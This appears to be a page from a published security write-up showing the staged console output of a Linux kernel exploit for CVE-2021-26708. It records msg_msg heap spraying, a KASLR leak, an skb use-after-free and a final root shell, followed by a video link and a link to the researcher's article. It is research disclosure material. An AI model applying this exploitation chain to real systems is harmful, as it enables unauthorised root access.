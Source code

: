     [+] stage III: arbitrary read vsock via good overwritten msg_msg (msq 11)
    [+] msgrcv returned 6096 bytes
    [+] Found sk_memcg ffff9125c42f9000 (offset 4712 in the leaked kmem)
    [+] Found owner cred ffff9125c3fd6e40 (offset 4888 in the leaked kmem)
    [+] Found sock_def_write_space ffffffffab9851b0 (offset 4736 in the leaked kmem)
    [+] Calculated kaslr offset: 2a000000

    [+] stage IV: search sprayed skb near sk_memcg...
    [+] checking possible skb location: ffff9125c42fa000
    [+] stage IV part I: repeat arbitrary free msg_msg using corrupted msg_msg
        kaddr for arb free: ffff9125c25a4640
        kaddr for arb read: ffff9125c42fa030
    [+] adapt the msg_msg spraying payload:
        msg_ptr 0x7f0d91120fd8
        m_type 1337 at 0x7f0d91120fe8
        m_ts 6096 at 0x7f0d91120ff0
        msgseg next 0xffff9125c42fa030 at 0x7f0d91120ff8
    [+] go racing, show wins: 0 0 20 15 42 11
    [+] stage IV part II: arbitrary read skb via good overwritten msg_msg (msq 12)
    [+] msgrcv returned 6096 bytes
    [+] found a real skb

    [+] stage V: try to do UAF on skb at ffff9125c42fa000
    [+] skb payload:
        start at 0x7f0d91120004
        skb_shared_info at 0x7f0d91120ec4
        tx_flags 0x8
        destructor_arg 0xffff9125c42fa100
        callback 0xffffffffab64f6d4
        desc 0xffff9125c3fd6e53
    [+] go racing, show wins: 15

    [+] stage VI: repeat UAF on skb at ffff9125c42fa000
    [+] go racing, show wins: 0 12 13 15 3 12 4 16 17 18 9 47 5 12 13 9 13 19 9 10 13 15 12 13 15 17 30

    [+] finish as: uid=0, euid=0
    [+] starting the root shell...
    uid=0(root) gid=0(root) groups=0(root),1000(a13x) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

Видео
-----

<youtube><https://www.youtube.com/watch?v=EC8PFOYOUgU></youtube>

Ссылка
------

<https://a13xp0p0v.github.io/2021/02/09/CVE-2021-26708.html>